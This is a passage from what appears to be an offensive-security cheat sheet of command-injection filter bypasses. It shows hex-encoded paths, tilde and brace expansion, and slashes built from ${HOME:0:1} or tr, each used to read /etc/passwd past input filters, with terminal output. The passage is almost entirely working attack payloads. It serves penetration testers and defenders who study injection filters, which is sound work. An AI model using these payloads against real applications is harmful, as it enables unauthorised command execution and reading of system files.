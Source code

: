 
### Bypass characters filter via hex encoding

```powershell
swissky@crashlab:~$ echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"
/etc/passwd

swissky@crashlab:~$ cat `echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"`
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ abc=$'\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64';cat $abc
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ `echo $'cat\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64'`
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ xxd -r -p <<< 2f6574632f706173737764
/etc/passwd

swissky@crashlab:~$ cat `xxd -r -p <<< 2f6574632f706173737764`
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ xxd -r -ps <(echo 2f6574632f706173737764)
/etc/passwd

swissky@crashlab:~$ cat `xxd -r -ps <(echo 2f6574632f706173737764)`
root:x:0:0:root:/root:/bin/bash
```

### Bypass with Tilde expansion

```powershell
echo ~+
echo ~-
```

### Bypass with Brace expansion

```powershell
{,ip,a}
{,ifconfig}
{,ifconfig,eth0}
{l,-lh}s
{,echo,#test}
{,$"whoami",}
{,/?s?/?i?/c?t,/e??/p??s??,}
```


### Bypass characters filter

Commands execution without backslash and slash - linux bash

```powershell
swissky@crashlab:~$ echo ${HOME:0:1}
/

swissky@crashlab:~$ cat ${HOME:0:1}etc${HOME:0:1}passwd
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ echo . | tr '!-0' '"-1'
/

swissky@crashlab:~$ tr '!-0' '"-1' <<< .
/

swissky@crashlab:~$ cat $(echo . | tr '!-0' '"-1')etc$(echo . | tr '!-0' '"-1')passwd
```